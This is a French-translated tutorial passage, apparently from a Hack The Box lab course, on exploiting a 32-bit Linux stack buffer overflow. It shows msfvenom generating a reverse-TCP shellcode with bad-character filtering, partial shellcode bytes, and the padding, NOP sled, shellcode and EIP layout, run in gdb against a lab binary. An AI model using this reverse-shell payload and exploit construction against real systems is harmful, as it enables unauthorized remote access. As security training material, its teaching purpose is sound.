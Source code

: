 Génération de shellcode
====================

* * * * *

Nous avons déjà appris à connaître l'outil `msfvenom` avec lequel nous avons généré la longueur approximative de notre shellcode. Nous pouvons maintenant utiliser à nouveau cet outil pour générer le shellcode réel, ce qui oblige le processeur de notre système cible à exécuter la commande que nous voulons avoir.

Mais avant de générer notre shellcode, nous devons nous assurer que les composants et propriétés individuels correspondent au système cible. Par conséquent, nous devons prêter attention aux domaines suivants :

- "Architecture"
- `Plate-forme`
- "Mauvais personnages"

#### Syntaxe MSFvenom

Syntaxe MSFvenom

```
dsgsec@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" -- out <nom de fichier>

```

#### MSFvenom - Générer un shellcode

MSFvenom - Générer un shellcode

```
dsgsec@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20 " --out shellcode

11 encodeurs compatibles trouvés
Tentative d'encodage de la charge utile avec 1 itérations de x86/shikata_ga_nai
x86/shikata_ga_nai a réussi avec la taille 95 (itération=0)
x86/shikata_ga_nai choisi avec la taille finale 95
Taille de la charge utile : 95 octets
Taille finale du fichier c : 425 octets
Enregistré sous : shellcode

```

#### Shellcode

Shellcode

```
dsgsec@htb[/htb]$ cat shellcode

char non signé buf[] =
"\xda\xca\xba\xe4\x11\xd4\x5d\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x31\x50\x17\x03\x50\x17\x83\x24\x15\x36\xa8\x95\xcd\x41"
"\xb0\x86\xb2\xfe\x5d\x2a\xbc\xe0\x12\x4c\x73\x62\xc1\xc9\x3b"
<SNIP>

```

Maintenant que nous avons notre shellcode, nous l'ajustons pour n'avoir qu'une seule chaîne, puis nous pouvons adapter et soumettre à nouveau notre exploit simple.

#### Remarques

Remarques

```
    Tampon = "\x55" * (1040 - 124 - 95 - 4) = 817
      NOP = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
       EIP = "\x66" * 4'

```

#### Exploiter avec Shellcode

Exploiter avec Shellcode

```
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>.. .\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

Le programme en cours de débogage a déjà été lancé.
Commencer depuis le début ? (o ou n) o

Programme de démarrage : /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4. ..<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

Point d'arrêt 1, 0x56555551 dans bowfunc ()

```

Ensuite, nous vérifions si les premiers octets de notre shellcode correspondent aux octets après le NOPS.

#### La pile

La pile

```
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd64c : 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd654 : 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd65c : 0x90 0x90 0xda 0xca 0xba 0xe4 0x11 0xd4
# |----> Le shellcode commence
<SNIP>

```